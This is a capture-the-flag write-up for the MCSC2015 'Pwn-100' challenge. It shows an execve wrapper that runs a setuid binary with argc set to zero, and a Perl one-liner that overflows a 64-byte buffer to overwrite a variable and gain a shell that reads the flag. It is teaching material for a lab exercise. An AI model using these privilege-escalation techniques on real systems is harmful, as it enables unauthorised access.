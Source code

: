 # MCSC2015 writeup for Pwn-100
pwn0@MCSC2015:/challenges/pwn0$ ls -l
total 16
-rws--s--x 1 pwned0 pwned0 7492 mai   18 15:13 0
-r-------- 1 pwned0 pwned0   52 mai   18 15:13 FLAG
-rw-r--r-- 1 root   root    558 mai   18 15:13 pwn0.c

after a quick view in pwn0.c, here's an interesting function

void vuln() 
{
	unsigned int reg;
	char buffer[BUFF_SIZE];
	fgets(buffer , BUFF_SIZE+5 , stdin);
	if(reg == 78954)
	{
		printf("You Win\n");
		system("/bin/dash");
	}
}

However, this function is executed if and only if argc is equal to zero.
In that case, execve can be handy ...


Step 1 : run the program with argc equals to zero to allow the function vuln() to be executed.
Step 2 : overwrite the variable reg with 78954
if(reg == 78954)
{
	printf("You Win\n");
	system("/bin/dash");
}
##############################
Step1 : run a program with argc=0
What's special about the family exec call system ?
execve allows you to specify the command-line arguments (including the program name).
a normal call to execve for example would be :
execve("/home/xxx/prog","prog",NULL) witch is similar to /home/xxx/prog with argc equals to 1 as usual ....
execve("/home/xxx/prog",NULL,NULL) would be a little bit different .... argc is equal to zero in that case.

with that said, let's start exploiting .....
First, we write a small program 
#########################
#include <stdio.h>
#include <stdlib.h>
int main()
{
	execve("/challenges/pwn0/0",NULL,NULL);
}
############################
pwn0@MCSC2015:/tmp$ mkdir /tmp/testing
pwn0@MCSC2015:/tmp$ cd /tmp/testing/
pwn0@MCSC2015:/tmp/testing$ cat wrapper.c
#include <stdio.h>
#include <stdlib.h>
int main()
{
	execve("/challenges/pwn0/0",NULL,NULL);
}
pwn0@MCSC2015:/tmp/testing$ gcc wrapper.c -o wrapper
pwn0@MCSC2015:/tmp/testing$ ./wrapper 
Good Boy
test
pwn0@MCSC2015:/tmp/testing$

we are finally able to execute the vuln() function, let's try to exploit it:
The buffer size is 64, 78954 to hexadecimal is 0x1346A
===========================
A successful exploitation would be like this:
pwn0@MCSC2015:/challenges/pwn0$ perl -e 'print "A"x64 . "\x6a\x34\x01\x00"' > /tmp/testing/input
pwn0@MCSC2015:/challenges/pwn0$ cat /tmp/testing/input -|/tmp/testing/wrapper 
Good Boy
You Win
id      
uid=1001(pwn0) gid=1001(pwn0) euid=1002(pwned0) egid=1002(pwned0) groups=1002(pwned0),1001(pwn0)
cat FLAG
flaG{I_4M_Th3_EaSy_One_Pwn_th3_N3xt_L3vel_If_U_C4N}
